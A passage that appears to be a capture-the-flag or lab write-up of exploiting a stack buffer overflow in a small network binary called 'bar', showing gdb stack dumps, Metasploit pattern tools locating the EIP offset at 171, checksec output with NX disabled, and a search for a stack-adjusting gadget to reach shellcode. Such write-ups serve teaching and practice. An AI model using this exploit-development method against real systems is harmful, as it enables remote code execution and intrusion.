 EIP and EBP had both been overwritten with 0x41414141, so I knew I could control the program's execution flow. Looking at the stack showed that I controlled a good chunk of it. 

```
(gdb) x/40wx $esp
0xbfd107c0:	0xbf004141	0x08048acb	0x00000007	0x00000001
0xbfd107d0:	0x00000000	0xb7762ff4	0x41762ff4	0x41414141
0xbfd107e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd107f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd10800:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd10810:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd10820:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd10830:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd10840:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfd10850:	0x41414141	0x02850002	0x0100007f	0x00000000
```

Unfortunately the area I controlled was 32 bytes away from ESP. I would need to find a way to remove at least 32 bytes from the stack and then jump to it so I could execute my shellcode. Before going any further, I needed to find EIP's offset. Metasploit's pattern_create.rb did the job:  

```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 200 | nc localhost 65535
Welcome to the jungle.  
Enter up to two commands of less than 121 characters each.
Got it
Got it
```

I loaded up the new core file and it showed that EIP had been overwritten by  0x41376641

```
root@kali:~# gdb -q -c core
[New LWP 4829]
Core was generated by `./bar'.
Program terminated with signal 11, Segmentation fault.
#0  0x41376641 in ?? ()
(gdb)

Using pattern_offset.rb, I identified EIP's offset at 171:

root@kali:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x41376641
[*] Exact match at offset 171

```

I controlled a decent portion of the stack for storing shellcode but that wouldn't do much good if the binary was compiled with NX. I ran checksec.sh against the binary:

```
root@kali:~# ./checksec.sh --file bar
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   bar
```

No NX so I could definitely execute shellcode on the stack. However I still had to figure out how to jump to the shellcode, which was 32 bytes away from the stack. I decided to have a look at the instructions in the binary using objdump. I was interested in add or pop instructions that operated on ESP. I found one in particular that would add 28 bytes to ESP.  
